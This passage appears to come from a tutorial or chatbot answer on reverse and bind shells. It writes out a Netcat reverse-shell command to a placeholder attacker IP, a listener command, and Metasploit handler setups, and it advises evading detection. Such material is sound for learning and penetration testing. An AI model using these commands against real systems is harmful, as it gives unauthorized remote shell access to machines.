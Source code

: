 `nc -lvp 4444`

This command tells Netcat (`nc`) to listen on port 4444 for incoming connections.

**On the target system:**

bash

Copy code

`nc <attacker-ip> 4444 -e /bin/bash`

Replace `<attacker-ip>` with the attacker's IP address. This connects the target system back to the attacker and provides a shell.

### Key Differences

- **Connection Initiation**:
    
    - **Bind Shell**: The target system opens a port and waits for the attacker to connect.
    - **Reverse Shell**: The attacker opens a port and waits for the target system to connect.
- **Firewall Evasion**:
    
    - **Bind Shell**: More likely to be blocked by firewalls on the target system, as it requires an open port.
    - **Reverse Shell**: More effective at bypassing firewalls, as outbound connections are often allowed.
- **Usage Context**:
    
    - **Bind Shell**: Used when the attacker knows the target system's IP address and expects it to be accessible.
    - **Reverse Shell**: Used when the target system is behind a firewall or NAT, making direct connections difficult.

### Practical Considerations

- **Security**: Both methods can be detected by security monitoring tools. It's important to use encrypted channels and evade detection where possible.
- **Tools**: In addition to Netcat, other tools like `Metasploit`, `Socat`, and custom scripts can be used to create reverse and bind shells.

### Examples in Metasploit

**Bind Shell:**

bash

Copy code

`use exploit/multi/handler set PAYLOAD linux/x86/shell_bind_tcp set RHOST <target-ip> set LPORT 4444 run`

**Reverse Shell:**

bash

Copy code

`use exploit/multi/handler set PAYLOAD linux/x86/shell_reverse_tcp set LHOST <attacker-ip> set LPORT 4444 run`
